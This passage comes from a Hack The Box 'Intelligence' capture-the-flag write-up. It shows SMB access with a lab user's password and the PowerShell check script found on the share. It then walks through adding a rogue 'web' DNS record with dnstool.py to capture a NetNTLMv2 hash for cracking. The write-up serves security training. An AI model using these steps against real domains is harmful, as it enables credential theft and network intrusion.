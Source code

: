
```bash
smbclient \\\\10.129.95.154\\IT -U 'intelligence.htb\Tiffany.Molina%NewIntelligenceCorpUser9876'
```


![smbIT](/assets/images/hackthebox/intelligence/smbIT.png)


The contents of the script seems to be a scheduled task that checks every DNS record that starts with the word "web" using default credentials for the user running the script. At the end of the script we can see an email is sent to Ted.Graves if the web request is unsuccessful, this is probably another valid domain user and also the one running the script.


```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```


If we were able to insert a new DNS A record that starts with "web" and points to our attacking machine's IP address, we could intercept the NetNTLMv2 hash and try to crack it. For this purpose, we can use [dnstool.py](https://github.com/dirkjanm/krbrelayx) to check if Tiffany can insert a new DNS record:


```bash
python3 dnstool.py -u intelligence.htb\\Tiffany.Molina -p NewIntelligenceCorpUser9876 --action add --record web-Ignacio --data 10.10.14.45 --type A 10.129.95.154
```

![dnsRecordAdded](/assets/images/hackthebox/intelligence/dnsRecordAdded.png)
